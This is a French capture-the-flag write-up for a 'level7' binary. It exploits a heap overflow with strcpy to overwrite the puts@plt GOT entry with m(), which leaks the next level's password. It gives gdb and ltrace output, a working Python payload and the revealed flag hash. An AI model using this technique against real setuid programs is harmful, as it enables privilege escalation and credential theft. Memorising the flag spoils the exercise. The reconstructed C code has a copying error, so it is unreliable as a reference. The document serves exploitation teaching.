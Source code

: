 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2024(level7) gid=2024(level7) groups=2024(level7),100(users)
/home/user/level7
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level7 :

```bash
$ ./level7
Segmentation fault (core dumped)
$ ./level7 da
Segmentation fault (core dumped)
$ ./level7 da b
~~
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=41a50d3a-4820-48a6-93d8-d314911b1399) et en extrait une version probable du code :

```c
struct file {
    int id;
    void *ptr;
};

char string[80];

void m() {
    printf("%s - %d\n", string, time(0)); // <--4 string is printed with the content of .pass
    return;
}

int main(int argc, char **argv)
{
    struct file *buffer1;
    struct file *buffer2;

    buffer1 = malloc(8)
    buffer1->id = 1;
    buffer1->ptr = malloc(8);

    buffer2 = malloc(8);
    buffer2->id = 2;
    buffer2->ptr = malloc(8);

    strcpy(buffer2->ptr, argv[1]); // <---------1 buffer overflow possible here, overflow used to write on buffer2->ptr and make it point to puts@plt
    strcpy(buffer2->ptr, argv[2]); // <---------2 now it means whatever I write here becomes the new address of puts(), we give it the address of m()

    fgets(string, 68, fopen("/home/user/level8/.pass", "r"));

    puts("~~"); // <----------------------------3 above, .pass is stored in string, and then, since puts() dynamic link is changed, it calls m()
    
    return 0;
}
```

Je note :

- l'usage de `strcpy()` qui peut présenter une vulnérabilité comme dans le level précédent.
- l'usage de `fgets()` qui à priori est comme précédamment, non exploitable.
- un `puts()` sans importance, à priori.

Je travaille, comme dans le précédent niveau, avec la `heap` étant donné la présence des `malloc()`.

Pour comprendre ce que je dois fabriquer comme payload, je décerne ce que fait le binaire :

- Créé deux structure "fichier" de 8 bytes qui contiennent un `id` les représentants, ainsi qu'un pointeur sur la `heap` pointant vers eux.
- Copie dans chacun de ces "fichier" (avec leurs pointeurs) le contenu du premier et second argument respectivement.
- Tente d'ouvrir le fichier `.pass`, en lire les 68 premiers bytes, et les stock dans la variable global 'string'

Je note également :

- Il ne semble pas utiliser la variable `int` de cette structure, cependant elle servira peut-être dans l'exploit
- La fonction `m()` et son `printf()`, qui imprime la valeur de la globale `string`

Après réflexion et en analysant un point de vulnérabilité possible, il me semble évident que `puts()` n'est en fait pas sans importance comme annoncé plus haut. J'en arrive à cette conclusion car c'est la dernière exécution dans le programme avant sa fin, et après avoir obtenu la valeur contenu dans le `.pass`.

Je vais donc employer la même méthode que dans le précédent niveau, mon but va être de changer ce vers quoi le `plt` de `puts()` pointe, afin de le faire pointer vers `m()` et que le `printf()` m'imprime la valeur de `string` après que celui-ci ai été actualisé pour contenir le `.pass`.

Ma méthode pour réaliser cet exploit va être la suivante :

- Au moment du `strcpy()` pour le `buf1->ptr`, je dois lui donner en argument un payload infecté qui overflow la `heap` jusqu'à atteindre la position de `buf2->ptr`.
- Une fois la position du deuxième buffer atteint, je lui fais valoir l'adresse `plt` de `puts()`
- Au moment du `strcpy()` pour le `buf2->ptr`, je manipule alors ce que l'adresse `plt` de `puts()` vaut, et il me suffit de lui faire résoudre à l'adresse de la fonction `m()`.

Je commence par trouver l'adresse de la fonction `m()` avec `gdb` :

```h
$ gdb level7
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp <----- ici
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
    ...
```

Je trouve `m()` -> `0x080484f4`.

Je cherche maintenant l'adresse `plt` de `puts()` :

```h
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928 <------- ici
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
```

Je trouve `puts` -> `0x8049928`.

Il me faut maintenant trouver l'offset à appliquer afin de faire pointer `buf2->ptr` sur `buf1->ptr`.

Comme pour le level 6, j'utilise `ltrace` afin de trouver la distance à "parcourir" dans la `heap` avant d'overflow :

```bash
$ ltrace ./level7 da b
__libc_start_main(0x8048521, 3, 0xbffff7f4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                               = 0x0804a008 (buf1 = malloc(8))
malloc(8)                               = 0x0804a018 (buf1->ptr = malloc(8))
malloc(8)                               = 0x0804a028 (buf2 = malloc(8))
malloc(8)                               = 0x0804a038 (buf2->ptr = malloc(8))
strcpy(0x0804a018, "da")                = 0x0804a018
strcpy(0x0804a038, "b")                 = 0x0804a038
fopen("/home/user/level8/.pass", "r")   = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Avec ces informations je trouve le padding en faisant le calcul suivant :

- Je pars de `buf1->ptr` => `0x0804a018`
- J'arrive à `buf2` => `0x0804a028`
- Je trouve [16 bytes](https://www.calculator.net/hex-calculator.html?number1=0804a028&c2op=-&number2=0804a018&calctype=op&x=Calculate)
- Je dois ajouter 4 bytes pour l'`int` qui est déclaré dans la structure
- `16 + 4 = 20` bytes
- J'atteint donc normalement `buf2->ptr`

---

On note l'importance d'inclure les 4 bytes de l'`int` en observant dans la `ltrace` ci-dessus que :

`malloc(8) = 0x0804a028 (buf2 = malloc(8))`
et
`malloc(8) = 0x0804a038 (buf2->ptr = malloc(8))`

Sont séparé de 0x10 (soit 16 bytes). L'adresse que l'on trouve en deuxième (`0x0804a038`) représente le haut des 8 bytes alloués à `buf2->ptr`.
Son adresse avant l'allocation est donc de `0x0804a038` - `0x00000008` soit `0x0804a030`.

Si j'ajoute à l'adresse de `buf2` (`0x0804a028`) 4 bytes (pour représenter `buf2->id`) j'atteint `0x0804a02c` (soit l'adresse de `buf2->ptr`)
et si j'ajoute à nouveau 4 bytes, j'atteint le début des 8 bytes alloués pour `buf2->ptr`, soit `0x0804a030` !

---

Je peux maintenant construire mon payload avec ces 3 informations :

- Adresse de `m()` => `0x080484f4` => `\x08\x04\x84\xf4"[::-1]` en python
- Adresse de `puts@plt` => `0x8049928` => `\x08\x04\x99\x28"[::-1]` en python
- Padding pour `buf1->ptr` => 20 bytes => `\x90" * 20`

Voici à quoi pourrait ressembler le payload :

```python
python -c 'print("\x90" * 20 + "\x08\x04\x99\x28"[::-1])'` `python -c 'print("\x08\x04\x84\xf4"[::-1])
```

Pour résumer, le premier argument va donner une valeur à `buf1->ptr`, je lui donne la valeur de 20 bytes de padding en `NOP` (`\x90`) afin qu'il pointe sur l'adresse de `buf2->ptr`, et je fais équivaloir cette dernière à l'adresse de `puts@plt`.

Le deuxième argument va lui donner une valeur à `buf2->ptr` qui ici, en fait, pointe sur `puts@plt`. Nous allons donc, comme le niveau précédent, changer ce vers quoi pointe `puts()`.

Cela aura pour effet qu'au moment du `fgets()`, la variable globale `string` sera modifiée, puis `m` sera apppelé par le code pensant appeler `puts()`, et imprimera cette valeur.

J'essaye mon payload :

```bash
$ ./level7 `python -c 'print("\x90"*20 + "\x08\x04\x99\x28"[::-1])'` `python -c 'print("\x08\x04\x84\xf4"[::-1])'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1712765813
```

On voit ici que le `printf()` à bien été imprimé, et je comprend maintenant l'utilité du `time(0)` dans ce dernier. Il permet de vérifier que le projet à bien été réalisé par nos soins !

Je regarde la valeur d'`epoch` actuelle sur [epochconverter.com](https://www.epochconverter.com/) et trouve : `1712765926`
Je soustrais par curiosité les deux valeurs : `1712765926 - 1712765813 = 113`.

Il s'est donc écoulé 113 secondes depuis l'exécution de mon payload et l'écriture du calcul ci-dessus :)




